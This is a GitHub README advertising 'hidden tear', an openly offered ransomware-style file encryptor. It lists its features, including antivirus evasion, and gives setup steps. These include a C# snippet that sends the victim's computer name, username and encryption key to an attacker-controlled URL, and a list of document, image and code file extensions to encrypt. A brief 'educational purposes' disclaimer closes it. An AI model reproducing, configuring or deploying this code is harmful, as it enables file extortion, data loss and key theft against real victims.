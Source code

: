          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

**Thanks**

Special thanks to Ikikardes who helped me to publish this code.


## GitAds Sponsored
[![Sponsored by GitAds](https://gitads.dev/v1/ad-serve?source=arnabnandy7/hidden-tear@github)](https://gitads.dev/v1/ad-track?source=arnabnandy7/hidden-tear@github)


